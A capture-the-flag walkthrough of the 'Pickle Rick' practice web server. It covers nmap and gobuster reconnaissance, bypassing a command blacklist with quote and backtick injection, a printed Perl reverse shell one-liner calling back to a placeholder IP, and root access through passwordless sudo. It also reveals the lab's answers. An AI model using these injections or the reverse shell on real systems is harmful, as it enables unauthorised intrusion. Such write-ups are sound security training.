






Cover Image by [BiZkettE1](https://www.freepik.com/free-vector/modern-business-background-with-geometric-shapes_5287944.htm) on Freepik

## Challenge

This Rick and Morty-themed challenge requires you to exploit a web server to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

## Solution

Since we don't have any information about our target let's run a Nmap scan to see if we can find any interesting service that is running on the machine that we can be exploited.

```
> nmap -sS -A -T4 -p- 10.10.79.123

Nmap scan report for 10.10.79.123
Host is up (0.14s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 31:7b:f4:07:69:69:13:22:b9:1d:12:71:cc:89:21:aa (RSA)
|   256 35:2b:db:f7:4c:3a:8d:b9:a9:ae:6c:53:f4:c3:b4:af (ECDSA)
|_  256 95:0f:37:24:eb:c2:f5:09:9d:b8:7c:3d:29:14:4e:ed (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
```

### Command Options

* **-sS:** Stealth Scan
* **-A:** Aggressive Scan (OS Detection, Service Versioning and Some Scripts)
* **-T4:** Timing Template (Aggressive)
* **-p-:** Scan all ports

From the scan results, we can see that the only two ports that are open on the target are port 80 (HTTP) and port 22 (SSH). Since port 80 is HTTP we know that there is a web server that is running on the target. Let's access the website and see if we can find anything helpful.


Looking at the message on the homepage it looks like Rick cannot remember the ingredients that are required to turn him back to his human form and to make matters worse he does not remember his password.

Let's dig around on the website and see if we can find anything that will help find the ingredients. Let's have a look at the source (Ctrl + U) of the current page and see if we can find any hints.


Immediately we see that we have found a username "R1ckRul3s". Let's note it down we may have to use it later.

```
Username: R1ckRul3s
```

We can have a lot at "robots.txt" for the website to see if we are given any clue about any hidden pages/ directories that are present on the website


We see a string that looks like gibberish but still let's note it down as it can be a password for some sort of key that could come in handy later.

```
Wubbalubbadubdub
```

Since we were not able to find any information about other directories/ pages that might be present from robots.txt let's brute force the webserver to see if we can find any directories. I have used "gobuster" for directory brute forcing

_(Dirbuster can be used if you prefer a tool with GUI and dirb is an alternate command line-based application)_

```
gobuster dir -u http://10.10.79.123 -x txt,php,html -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100

===============================================================
2021/03/10 17:06:43 Starting gobuster
===============================================================
/assets (Status: 301)
/index.html (Status: 200)
/portal.php (Status: 302)
/login.php (Status: 200)
```

### Command Options

* **-u:** URL of the target
* **-x:** File extensions to search will brute forcing
* **-w:** Wordlist
* **-t:** No. of threads

We were able to find some files that we were not aware existed. The result that stands out the most is "login.php".


We already have a username that we were able to find from the source of the main page. We don't have a password but we did find some strange string that could be a password. Let's try using that string and see if we can log in.



Awesome we were able to log in. If we try to access any of the tabs that are present on the page we get an error saying they can only be accessed by the real Rick.


In front of us, we have a Control Panel that allows us to enter commands let's try to enter a command and see if we get any output.

```
ls
```


We can view the files that are present at the root of the web server. The files that stand out here are "Sup3rS3cretPickl3Ingred.txt", "portal.php" and "clue.txt". Let's try to view the contents of the "Sup3rS3cretPickl3Ingred.txt" file

```
cat Sup3rS3cretPickl3Ingred.txt
```


We get a response saying that we cannot run that command. The command is **"Disabled"** which means the website is using some sort of blacklist to prevent certain commands from being executed.

We need to find a way to try and bypass the filtering if we want to access the "Super Secret" file. We can try using the various command injection bypasses and see if can get any of the blocked commands to execute.

Two of the basic bypass techniques are:
* Using double quotes (") to enclose characters in the command
* Inserting the back-tick (\`) character between the command

Let's capture the request using Burpsuite and edit the value of the body that contains the command that we are trying to execute and see if we can bypass the filtering




As we can see that we were able to bypass the blacklist by using command injection evasion techniques. For more information on some of the other evasion techniques refer to the attached resources

[Command Injection Bypass Cheatsheet \| by ninja hatori \| Medium](https://medium.com/@hninja049/command-injection-bypass-cheatsheet-4414e1c22c99)

[PayloadsAllTheThings/Command Injection at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)

Now that we know how to evade the filtering let's access the portal.php file and see if we can find any credentials related to the database that we can exploit to gain access to the server.



Well, no credentials were found but we were able to see the list of commands that are getting blocked by the web server.

## Approach 1: Using Reverse Shell

The next logic process that we can try is to set up a reverse shell. So that we can access the other directories that are present on the server. For all the different types of reverse shells that can be setup checkout the amazing resource provided by "PayloadAllThings"

[PayloadsAllTheThings/Reverse Shell Cheatsheet.md at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

Let's set up a listener on our system using Netcat (The Reverse Shell will connect to this listener on our system)

```
> netcat -nvlp 1234  
listening on [any] 1234 ...
```

From the above resource I used the PHP reverse shell code to get a connection

_(The bash and the netcat reverse shells scripts have also been found to work on this box as well)_

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

**Note:** The IP in the above code needs to be changed with the TryHackMe VPN IP Address which can be found using "ip a show tun0" under Inet


We have successfully set up a reverse shell. Let's look at the "clue.txt" file to see if we get information as to where the other two ingredients might be hidden in the system.

```
$ cat clue.txt  
Look around the file system for the other ingredient.
```

We are told to look around the filesystem. Let's look at the home directory of the current user to see if we can find anything.

```
> cd /home/rick

> ls  
second ingredients

> cat "second ingredients"  
1 jerry tear
```

And we have found the second ingredient. Since the 2nd ingredient was in the home directory there is a high chance for the 3rd ingredient to be located in the root user's home directory. We need root user privileges to be able to access that directory. Let's have a look at the permissions that the user Rick is given on the system.


We see that **"user rick can run all commands on all the hosts without any password"** which is great we don't have to exploit any service to try and escalate our privileges.

```
> sudo ls /root  
3rd.txt  
snap

> sudo cat 3rd.txt  
3rd ingredients: fleeb juice
```

And there we go we have found the 3rd ingredient as well.

## Approach 2: Using commands from the Portal

By looking at "portal.php" we saw the commands that were blocked from being used. If we look closely at the list we see that the "less" command is not blocked so we can use that to view the files.

**Note:** Since we know how to bypass the filter as well. We can use the blocked commands as well.

```
less Sup3rS3cretPickl3Ingred.txt
```


And we have our 1st ingredient.

```
ls /home/rick
```

In the home directory of the current user, we see there is a file called "second ingredients". Let's view its contents to get the second flag.

```
less /home/rick/"second ingredients"
```


When we run the `sudo -l` command we see that we have permission to run all the commands on the system without a password.



When we run `sudo ls /root` we see that there is a file called 3rd.txt present this should be our 3rd flag.


```
sudo less /root/3rd.txt
```



That's all. Happy Hacking :)